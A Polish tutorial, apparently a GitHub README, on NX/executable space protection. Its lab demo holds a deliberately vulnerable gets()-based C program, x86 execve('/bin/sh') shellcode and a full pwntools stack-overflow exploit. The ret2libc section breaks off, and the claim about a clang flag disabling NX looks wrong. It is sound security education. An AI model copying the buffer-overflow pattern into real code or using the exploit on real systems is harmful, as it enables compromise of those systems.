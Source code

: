 # Executable space protection

## 1. Opis 

`Executable space protection`, w bezpieczeństwie systemów i oprogramowania, odnosi się do oznaczania regionów pamięci jako `niewykonywalen` - `non-executable`. W wyniku takiego oznaczenia wykonywanie kodu maszynowego z regionu tak oznaczonego zakończy się wzniesieniem wyjątku. 



Oznacza to, że w przypadku ataków BOF, podczas których najczęściej wstrzykujemy kod na stos, który następnie chcemy wykonać jest niemożliwe. Przykład takiego exploitu zadenmonstruję w kolejnych punktach.

## 2. Wady i zalety

NX jest jedną z wielu sposobów zapobiegania przed atakami typu BOF. Nie jest to jednak metoda, która całkowicie zapobiega takim atakom - można powiedzieć że żadna technika nie jest w stanie w 100% zapewnić bezpieczeństwo aplikacji. 

Wykorzystywanie samej metody NX w zabezpieczeniu aplikacji powinno być jedna z wielu metod. NX zapobiega przed wykonaniem kodu maszynowego ze stosu, jednakże należy pamiętać, że i NX da sie ominąć. Przykładem jest atak typu `ret2libc`. Celem takiego ataku nie jest wstrzyknięcie i wykonanie złośliwego kodu, a wywołanie funkcji bibliotecznych podczas wychodzenia z funkcji, wktorej nastąpiło przepełnienie - więcej o tym ataku w kolejnych punktach.

Można więc stwierdzić, że NX jest dobrym sposobem ochorony aplikacji działającej w trybie uzytkownika, jednakże należy wiedzieć, że nie zapewnie on całkowitej ochrony.


## 3. Porównanie metody w przypadku `gcc` i `clang`

W przypadku użycia najnowszego `gcc` metoda NX jest defaultowo włączona. Istnieje jednak możliwość wyłączenia tej metody poprzez dodanie odpowiedniej flagi podczas kompilacji, a mianowicie `-z execstack`.

W przypadku użycia kompilatora `clang` metoda NX jest również defaultowo włączona. Równiez isnitje możliwosć wyłączenia tej metody, poprzez flagę `-fsanitize=safe-stack`.

## 4. Porównanie metody w Linux vs Windows




## 5.1 Przykładowa aplikacji - atack `shellcode injection`


Przyjęte założenia:

* kompilacja na 32-bit = `-m32`
* ASLR - wyłączone = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
* Wyłączone NX = `-z execstack`
* Wyłączone Stack Cannary = `-fno-stack-protector`



Kodpodatnej aplikacji. Podatność znajduje się w funkcji `vuln`, w której wywołujemy funkcję `gets()` - nie sprawdza ile bitów podajemy do zapisania i potrafi zapisać bity nawet poza długością przeznaczonego do tego buffora. 

```
//gcc vuln.c -o vuln -m32 -fno-stack-protector -no-pie -z execstack

#include <stdio.h>
#include <string.h>

void vuln(){
	char buffer[16];
	gets(buffer);
	printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
	vuln();
	return 0;
}
```

Aby dokonać exploitacji takiego programu należy wstrzyknąć kod, który chcemy wykonać na stos, a następnie nadpisać adres powrotu w funkcji `vuln()` na adres naszego kodu. Zatem eksploitację można podzielić na następujące punkty:

* znaleźć padding, który należy zastosować aby nadpisać `eip`
* podać adres wstrzykniętego kodu
* wstrzyknąć odpowiedni shellcode

Aby odnaleźć odpowiedni padding, można posłużyć się patternem `AAAABBBBCCCCDDDDEEEE...`. Dzięki takiemu inputowi w łatwy sposób w `gdb` można sprawdzić jaki adres został nadpisany na rejestr 	`eip`. W przypadku tej aplikacji jest to `HHHH`, zatem padding to `AAAABBBBCCCCDDDDEEEEFFFFGGGG`. 

![](pictures/1_padding.png)

Następnym krokiem jest odnalezienie adresu `buffer`. Adres jest stały, ponieważ ASLR został wyłączony. Adres uzyskuję przez `printf()`. Alternatywnie można to zrobić, poprzez użycie `gdb` i sprawdzenie adresu na stosie. Poniżej widać, że adres buffora to `0xffffd180`.

![](pictures/1_buffer_addres.png)

Shellcode można pobrać ze strony [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-752.php). W Moim przypadku używam shellcodu w postaci ASM, napisany dla architektury x86.

```asm
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
```


Ostatnim elementem potrzebnym do udanej eksploitacji to policzenie odpowiedniego adresu, na który należy wskazać, aby shellcode wykonał się. Do adresu buffora należy dodać długośc paddingu oraz długość adresu `eip`, dzięki temu wyliczony adres bedzie wskazywać na shellcode.

```python
padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_ptr = 0xffffd1d0

eip = buf_ptr + len(padding) + 4
```

Finalny exploit wygląda następująco:


```python
#!/usr/bin/env python3

from pwn import *

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_ptr = 0xffffd1d0

eip = buf_ptr + len(padding) + 4

shellcode = """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
 """

send = padding + p32(eip) + asm(shellcode)

p = process('./vuln')
p.sendline(send)
p.interactive()
```





W wyniku działania exploitu otrzymujemy shella. 

![](pictures/1_shell.png)



Dla aplikacji z włączonym zabezpieczeniem exploit nie działa. Dostajemy sygnał `SIGSEGV` - próba dostępu do zabronionej pamieci.

![](pictures/1_protected.png)





## 5.2 Przykładowa aplikacji - atak `ret2libc`

Tak jak wspomniałem w `wady i zalety`, pomimo właczonej ochorny `NX`, dlaej istnieje moźliwość exploitacji aplikacji - poprzez atak `ret2libc`. W tym ataku, zamiast wykonywać shellcode ze strosu, wykorzystamy funkcje biblioteczne z bibioteki `libc`.

Przyjęte założenia:

* kompilacja na 32-bit = `-m32`
*   ASLR - wyłączone = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
*   Włączone NX
*   Wyłączone Stack Cannary = `-fno-stack-protector`

Kod podatnej aplikacji. Tak jak w poprzedniej wersji, podatnością jest `gets()`. Zmienione zostały jedynie flagi kompilacji.

```c
//gcc vuln-protected.c -o vuln-protected -m32 -fno-stack-protector -no-pie

#include <stdio.h>
#include <string.h>

void vuln(){
        char buffer[16];
        gets(buffer);
        printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
        vuln();
        return 0;
}
```
Padding został odnaleziony w taki sam sposób





